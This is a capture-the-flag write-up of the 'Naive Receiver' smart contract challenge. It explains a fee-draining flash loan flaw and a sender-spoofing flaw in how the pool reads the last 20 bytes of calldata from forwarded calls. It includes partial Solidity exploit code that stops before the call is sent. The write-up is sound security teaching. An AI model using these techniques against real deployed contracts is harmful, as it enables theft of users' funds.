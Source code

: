 ## Challenge 2 - Naive Receiver

The challenge involves a smart contract system with a flash loan pool (`NaiveReceiverPool`) and a flash loan receiver (`FlashLoanReceiver`). The pool has a fixed fee for flash loans and supports meta-transactions via a `BasicForwarder` contract. The goal is to drain all WETH from both the pool and the receiver and deposit it into a designated recovery account.

### Contracts Overview

1. **NaiveReceiverPool**: This contract offers flash loans with a fixed fee of 1 WETH. It supports meta-transactions via the `BasicForwarder` contract.
2. **FlashLoanReceiver**: This contract receives flash loans from the `NaiveReceiverPool` and is expected to repay the loan plus the fee.
3. **BasicForwarder**: This contract allows meta-transactions, enabling users to batch multiple calls into a single transaction.
4. **Multicall**: This contract allows multiple function calls to be executed in a single transaction.

### Vulnerability Breakdown

The vulnerability lies in the `NaiveReceiverPool` contract's `flashLoan` function. The function allows anyone to repeatedly call it, causing the `FlashLoanReceiver` to pay the fixed fee each time. This can be exploited to drain the receiver's balance by repeatedly initiating flash loans with zero amount, but still incurring the fixed fee.

### Exploit Implementation

1. **Repeated Flash Loans**: The attacker repeatedly calls the `flashLoan` function with zero amount, causing the `FlashLoanReceiver` to pay the fixed fee each time. This drains the receiver's balance which is transferred to the pool.
2. **Meta-Transaction Execution**: The attacker uses the `BasicForwarder` to execute a series of flash loan calls and a final withdrawal call in a single transaction. We exploit here the access control issue within the pool contract which blindly trusts the 20 last bytes of the message data to determine who is the sender of the call, by crafting a malicious message data we can make the pool believe that we are the deployer of the pool and access all it's deposited funds.

```solidity
function test_naiveReceiver() public checkSolvedByPlayer {

    // Prepare call data for 10 flash loans and 1 withdrawal
    bytes[] memory callDatas = new bytes[](11);

    // Encode flash loan calls - on behalf of the Naive receiver
    for (uint i = 0; i < 10; i++) {
        callDatas[i] = abi.encodeCall(
        NaiveReceiverPool.flashLoan,
        (receiver, address(weth), 0, "0x")
        );
    }

    // Encode withdrawal call
    // Exploit the access control vulnerability by passing the request through the forwarder
    // And setting the deployer as sender in the last 20 bytes (That's how the pool parses it)
    callDatas[10] = abi.encodePacked(
        abi.encodeCall(
        NaiveReceiverPool.withdraw,
        (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))
        ),
        bytes32(uint256(uint160(deployer)))
    );

    // Encode the multicall
    bytes memory multicallData = abi.encodeCall(pool.multicall, callDatas);

```